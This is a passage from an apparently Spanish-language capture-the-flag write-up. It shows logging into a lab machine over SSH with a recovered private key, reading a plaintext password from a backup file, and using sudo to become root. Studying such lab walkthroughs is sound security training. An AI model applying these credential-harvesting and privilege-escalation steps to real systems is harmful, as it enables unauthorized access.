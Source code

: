 Ahora si podemos acceder por ssh como el usuario **kay** y con el archivo **id_rsa** (**Nota**: no olvidar asignar el permiso 600 del archivo id_rsa):

```bash
❯ chmod 600 id_rsa
❯ ssh -i id_rsa kay@10.10.228.37
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$ whoami
kay
kay@basic2:~$
```

Ya somos el usuario **kay** y podemos leer su contraseña en el archivo `pass.bak`:

```bash
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$
```

Si enumeramos un poco el usuario, vemos que se encuentra en el grupo **sudo** y como contamos con su contraseña, podemos convertirnos en el usuario **root**:

```bash
kay@basic2:~$ id
uid=1000(kay) gid=1000(kay) groups=1000(kay),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
kay@basic2:~$
kay@basic2:~$ sudo su
[sudo] password for kay: 
root@basic2:/home/kay# whoami
root
root@basic2:/home/kay#
```